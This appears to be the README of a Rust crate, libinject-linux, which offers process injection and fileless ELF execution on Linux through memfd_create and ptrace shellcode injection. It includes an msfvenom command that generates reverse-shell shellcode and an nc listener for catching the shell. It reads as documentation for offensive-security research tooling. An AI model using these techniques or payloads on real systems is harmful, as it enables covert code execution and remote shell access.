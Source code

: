 # libinject-linux

`libinject-linux` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Library Usage
Add `libinject-linux` as a dependency to your Rust project
```bash
cargo add --git https://github.com/dustyw0lf/libinject-linux.git
```

## Library Examples
>[!note]
>The examples can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/libinject-linux.git
```

Change directory into `libinject-linux`
```bash
cd libinject-linux
```

### memfd
Run the example
```bash
cargo run --example memfd_executable
```

or the shellcode example
```bash
cargo run --example memfd_shellcode
```

### hollow
Use your own shellcode or the provided example
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

Start a listener
```bash
nc -lvnp 1234
```

Run the example
```bash
cargo run --example hollow
```

## Acknowledgments
The code that turns shellcode into an ELF file was taken from the [minimal-elf](https://github.com/tchajed/minimal-elf) repository by [Tej Chajed](https://www.chajed.io).